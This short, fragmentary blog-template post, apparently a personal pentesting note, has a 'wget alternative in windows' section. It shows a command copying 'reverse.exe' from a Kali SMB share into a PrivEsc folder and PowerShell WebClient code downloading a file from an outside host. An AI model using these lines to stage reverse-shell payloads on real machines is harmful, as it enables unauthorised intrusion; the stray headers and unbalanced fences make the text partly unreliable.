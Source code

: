 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```


####  wget alternative in windows
```shell.com
---
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")
---
```
# hell
```yaml
---
math: true
---
```
